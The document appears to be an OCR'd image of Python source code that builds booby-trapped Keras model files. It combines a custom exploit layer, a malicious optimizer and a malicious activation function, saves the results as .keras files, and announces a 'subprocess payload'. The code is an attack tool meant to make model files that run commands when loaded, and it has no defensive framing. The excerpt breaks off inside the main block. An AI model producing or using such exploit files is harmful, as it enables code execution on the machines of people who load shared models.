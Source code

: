 ```python
def create_json_payload_exploit():

"""Create model with embedded JSON payload"""

model = keras.Sequential([

keras.layers.Dense(units=1, input_shape=(10,), activation='relu', name='first_layer'),

ExploitLayer(name='exploit_layer'),

keras.layers.Dense(units=1, activation='sigmoid', name='output_layer')

])

# Use malicious optimizer

malicious_optimizer = ExploitOptimizer()

model.compile(optimizer=malicious_optimizer, loss='binary_crossentropy', metrics=['accuracy'])

filename = 'exploit_json_payload.keras'

model.save(filename)

print(f"Created JSON payload exploit: {filename}")

return filename

  

def create_activation_exploit():

"""Create model with malicious activation function"""

model = keras.Sequential([

keras.layers.Dense(units=1, input_shape=(10,), activation=malicious_activation_v2, name='first_layer'),

keras.layers.Dense(units=1, activation='sigmoid', name='output_layer')

])

model.compile(optimizer='adam', loss='binary_crossentropy', metrics=['accuracy'])

filename = 'exploit_activation_v2.keras'

model.save(filename)

print(f"Created activation exploit: {filename}")

return filename

  

if __name__ == "__main__":

print("Creating Keras exploits with subprocess payload...")

try:

create_json_payload_exploit()

```